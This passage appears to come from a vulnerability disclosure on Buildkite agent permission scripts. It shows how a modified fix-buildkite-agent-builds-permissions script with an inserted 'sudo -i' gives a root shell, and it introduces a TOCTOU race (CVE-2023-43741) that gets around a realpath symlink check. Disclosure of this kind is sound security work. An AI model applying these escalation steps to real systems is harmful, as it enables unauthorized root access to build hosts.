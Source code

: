After changing ownership of `fix-buildkite-agent-builds-permissions`, it can be modified to run `sudo -i` to execute an interactive root shell:

```sh
...
# In here we need to check that they both don't contain slashes or contain a
# traversal component.

# *** INSERTED TO SPAWN INTERACTIVE ROOT SHELL ***
sudo -i 
# *** INSERTED TO SPAWN INTERACTIVE ROOT SHELL ***

AGENT_DIR="$1"
# => "my-agent-1"

ORG_DIR="$2"
# => "my-org"
...
```
**packer/linux/conf/buildkite-agent/scripts/fix-buildkite-agent-builds-permissions**

When `sudo /usr/bin/fix-buildkite-agent-builds-permissions` is ran again, it executes an interactive root shell:

```sh
$ sudo /usr/bin/fix-buildkite-agent-builds-permissions
# id
uid=0(root) gid=0(root) groups=0(root)
```
**Escalating to `root`**

### CVE-2023-43741 - Time-of-check Time-of-use (TOCTOU) Race Condition

Versions 6.7.0 and 5.22.4 addressed CVE-2023-43116 (Symbolic Link Following) through a check using `realpath` to identify any symbolic link segments in `PIPELINE_PATH` prior to changing ownership of `PIPELINE_PATH`.

```sh
...
# Check for symlink shenanigans
if [[ "$(realpath "${PIPELINE_PATH}")" != "${PIPELINE_PATH}" ]]; then
	exit 4
fi

# It should be a directory.
if [[ ! -d "${PIPELINE_PATH}" ]]; then
	exit 5
fi

# If we make it here, we're safe to go!

/bin/chown -R buildkite-agent:buildkite-agent "${PIPELINE_PATH}"
```
**packer/linux/conf/buildkite-agent/scripts/fix-buildkite-agent-builds-permissions**
